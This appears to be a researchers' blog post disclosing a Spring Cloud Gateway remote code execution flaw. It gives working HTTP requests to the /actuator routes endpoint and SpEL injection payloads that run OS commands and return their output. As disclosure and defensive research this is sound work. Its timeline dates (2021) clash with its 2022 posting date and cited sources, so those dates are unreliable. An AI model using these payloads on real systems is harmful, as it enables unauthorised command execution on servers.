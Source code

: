 ```yaml
---
layout: post
title:  "Spring Gateway Unauth RCE"
date:   2022-01-18 21:11:53 +0700
author: hoangnx99, rskvp93 (from Viettel Cyber Security)
categories: jekyll update
---
```


<i> In this blog, we will introduce our new 0-day vulnerability of Spring Cloud Gateway that we had just found out in the first of 2021. This vulnerability was reported to `VMWARE` and they had just been released the patch in the new version which released on 01/03/2021.
</i>

<b>Note: </b><i>Update in 01/03/2021: 
- 16/01/2021: We reported to VMware and being assigned for triage after that. 
- 16/02/2021: Ask for any update and get my first 0day <b>DUPLICATE</b>
![](../0day/duplicate.png)
- 01/03/2021: VMware release new version, duplicated guy also release the new blog about this.
![](../0day/dup-date.png)
![](../0day/my-date.png)

Seem that we reported later than him 1day. T.T
</i>

# Inspiration
The vulnerability was inspired by the blog `https://wya.pl/2021/12/20/bring-your-own-ssrf-the-gateway-actuator/` which was released on 20th December 2021. From this blog, the author ends with the SSRF by designing with the exposed `actuator` endpoint. After reading the docs of `Spring Cloud Gateway`, @rskvp93 - my mentor, comes with the idea of using `global filter` to gain the Remote Code Execution through EL Injection. 

# Detail Analysis:
## Functional Design:
![](../0day/sping_cloud_gateway_diagram.png)

As the above picture, Sping Cloud Gateway is a tool that provides out-of-the-box routing mechanisms often used in microservices applications as a way of hiding multiple services behind a single facade. To routing requests, the Spring Cloud Gateway forwards requests to `Gateway Handler Mapping` which route will be transferred to. 

Moreover, `Spring Cloud Gateway` also provides some built-in <b>`Gateway Filter`</b> which allow the modification of the incoming HTTP request or outgoing HTTP response in some manner. 

## Gateway Filter:
There is a list of public endpoint `/actuator` that can help us to construct a route with any filter. 
![](../0day/actuator-gateway-endpoints.png)

As the analysis of the above blog, we will summary some promising endpoints:
1. List all route:
```
GET /actuator/gateway/routes HTTP/1.1
Host: 192.168.137.120:9000
Connection: close


```
![List Route](../0day/list-routes.png)

2. Add a route:
```
POST /actuator/gateway/routes/test HTTP/1.1
Host: 192.168.137.120:9000
Connection: close
Content-Type: application/json
Content-Length: 334

{
  "predicates": [
    {
      "name": "Path",
      "args": {
        "_genkey_0": "/abc/**"
      }
    }
  ],
  "filters": [
    {
      "name": "AddRequestParameter",
      "args": {
        "_genkey_0": "X-Custom",
        "_genkey_1": "Test"
      }
    }
  ],
  "uri": "https://httpbin.org",
  "order": 0
}
```
![List Route](../0day/new-route.png)
3. Refresh route:
After adding a route, all the new route need a subsequent request to make the application recognize.
```
GET /actuator/gateway/routes HTTP/1.1
Host: 192.168.137.120:9000
Connection: close


```
![Refresh Route](../0day/refresh.png)

At now, a new route had added and the route can be accessed at `abc` endpoint with the new response header `X-Custom: Test ` which is added by the filter.

![Result Route](../0day/result-route.png)
 
In the previous chapter, we introduce Spring Cloud Gateway functionality, its filter, and how to construct a route through `/actuator` endpoint.  
## Digging Deeper Into Defining a Route:

After exploring the Spring Gateway filter through its docs, we were attracted to a part about using SpEL Expression to config the filter. This part of the document makes us dig into how to construct a route and find a way to do EL Injection. 
![Result Route](../0day/EL.png)

<i> Let see what happen when adding a new route ? </i>

A route after adding with `/actuator` endpoint will be a push to the routing cache. To Publish to the route, a `refresh` request must be made and all the route list arrays in the cache will be popped and converted one by one to a `Route`. We can define the `filter` and `predicate` as this example:
```
"filters": [
    {
      "name": "AddResponseHeader",  #Name of the filter
      "args": {
        "_genkey_0": "X-Custom",    #arg1: headername 
        "_genkey_1": "${abcc}"      #arg2: headervalue
      }
    }
  ]
``` 
![filter](../0day/filter-definition.png) 
![filter](../0day/filter.png) 

With every argument which passes into, the value will be considered which is spel expression by checking if the string starts with `#{` and ends with `}`. 
![filter](../0day/getvalue.png)
![filter](../0day/elinjection.png)

Therefore, This code is vulnerable to EL Injection and leads to RCE. There are many ways that you can exploit this vulnerability with any payload of EL Injection which can be found on the internet. However, to construct a payload that is available in as many cases as possible, we choose the payload that can reflect the command output to the response.

```
#{new java.util.Scanner(''.getClass().forName('java.lang.Runtime').getRuntime().exec('whoami').getInputStream()).useDelimiter('\\A').next().replace('\n',' ')}
```
![filter](../0day/result1.png)
![filter](../0day/result2.png)

We had tested above payload on Java 11 but in newer version (java 17), the payload for EL Injection is quite different and you can try this poc:

```
#{new java.util.Scanner(T(java.lang.Process).getMethod('getInputStream').invoke(T(java.lang.Runtime).getRuntime().exec(new String[]{'ls'}))).useDelimiter('\A').next().replace('\n',' ')}
```
# Conclusion:
To sum up, our research could leverage SSRF to RCE through EL Injection. However, this vulnerability can migrate easily by limiting the access to `/actuator` endpoint. 

# Credit:
nxhoang99 and rskvp93 from VcsLab of Viettel Cyber Security.
